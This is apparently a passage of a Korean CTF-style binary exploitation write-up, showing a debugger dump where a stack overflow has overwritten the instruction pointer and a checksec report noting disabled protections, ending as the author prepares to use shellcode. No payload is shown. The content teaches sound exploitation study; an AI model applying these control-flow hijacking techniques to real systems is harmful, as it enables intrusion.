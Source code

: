 ```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x10
 RDX  0xa42424242
 RDI  0x7fffffffdf90 ◂— 0x372d /* '-7' */
 RSI  0x1
 R8   0x0
 R9   0x0
 R10  0x0
 R11  0x7ffff7b845e0 (_nl_C_LC_CTYPE_class+256) ◂— add    al, byte ptr [rax]
 R12  0x400710 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe5a0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe4c0 —▸ 0x400a40 (__libc_csu_init) ◂— push   r15
 RSP  0x7fffffffe4a8 —▸ 0x400a32 (main+155) ◂— jmp    0x4009e5
 RIP  0xa42424242
─────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────
Invalid address 0xa42424242

──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ rsp  0x7fffffffe4a8 —▸ 0x400a32 (main+155) ◂— jmp    0x4009e5
01:0008│      0x7fffffffe4b0 —▸ 0x7fffffffe5a0 ◂— 0x1
02:0010│      0x7fffffffe4b8 ◂— 0xfffffff900000000
03:0018│ rbp  0x7fffffffe4c0 —▸ 0x400a40 (__libc_csu_init) ◂— push   r15
04:0020│      0x7fffffffe4c8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
05:0028│      0x7fffffffe4d0 ◂— 0x0
06:0030│      0x7fffffffe4d8 —▸ 0x7fffffffe5a8 —▸ 0x7fffffffe7dc ◂— 0x65732f656d6f682f ('/home/se')
07:0038│      0x7fffffffe4e0 ◂— 0x1f7ffcca0
────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────
 ► f 0        a42424242
   f 1           400a32 main+155
   f 2     7ffff7a2d830 __libc_start_main+240
Program received signal SIGSEGV (fault address 0xa42424242)

```
정상적으로 RIP를 바꾼 것을 확인 했다. 이제 익스 해보자.

```
secretpack@ubuntu:~/Desktop$ pwn checksec admin
[*] '/home/secretpack/Desktop/admin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
NX disabled 이므로 shell code를 사용할 수 있다.
